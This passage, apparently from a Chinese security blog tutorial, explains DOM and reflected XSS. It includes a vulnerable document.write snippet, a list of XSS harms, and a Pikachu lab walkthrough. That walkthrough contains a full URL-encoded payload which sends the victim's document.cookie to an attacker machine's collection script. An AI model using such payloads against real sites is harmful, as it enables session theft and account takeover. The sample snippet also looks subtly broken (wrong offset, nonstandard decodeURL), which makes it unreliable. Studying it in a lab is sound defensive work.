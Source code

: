 ```html
<script>
	var temp = document.URL;
    var index = document.URL.indexOf("content=")+4;
    var par = temp.substring(index);
    document.write(decodeURL(par));
</script>
```

上述代码的意思是获取URL中content参数的值，并且输出，如果输入`http://xmtxsec.top/dom.html?content=<script>alert(/xss/)</script>`，就会产生XSS漏洞。



# 三、漏洞危害

**钓鱼欺骗**：最典型的就是利用目标网站的反射型跨站脚本漏洞将目标网站重定向到钓鱼网站，或者注入钓鱼JavaScript以监控目标网站的表单输入，甚至发起基于DHTML更高级的钓鱼攻击方式。

**网站挂马**：跨站后利用IFrame嵌入隐藏的恶意网站或者将被攻击者定向到恶意网站上，或者弹出恶意网站窗口等方式都可以进行挂马攻击。

**身份盗用**：Cookie是用户对于特定网站的身份验证标志，XSS可以盗取用户的Cookie，就可以获取到用户对网站的操作权限，从而查看用户隐私信息。

**用户劫持**：一些高级的XSS，比如xss蠕虫等。控制受害者机器向其他系统发起攻击。



## 3.1、利用XSS漏洞盗取Cookie

**环境准备**

攻击机：192.168.1.11

漏洞服务器：192.168.1.5



1、在攻击机里面搭建pikachu靶场进入管理工具里的XSS后台

![image-20230106154418458](https://cdn.jsdelivr.net/gh/xmtxsec/picture/img/202301061544385.png)



修改pikachu/pkxss/xcookie下的cookie.php，将**IP地址改为漏洞服务器的地址**

![image-20230106154705873](https://cdn.jsdelivr.net/gh/xmtxsec/picture/img/202301061547924.png)



2、攻击者构造一个带有Payload的URL，诱使受害者点击就能取得Cookie

```
http://192.168.1.5/pikachu/vul/xss/xss_reflected_get.php?message=%3Cscript%3Edocument.location+%3D+%27http%3A%2F%2F192.168.1.11%2Fpikachu%2Fpkxss%2Fxcookie%2Fcookie.php%3Fcookie%3D%27+%2B+document.cookie%3B%3C%2Fscript%3E&submit=submit
```



成功获取到用户Cookie

![image-20230106155025190](https://cdn.jsdelivr.net/gh/xmtxsec/picture/img/202301061550244.png)
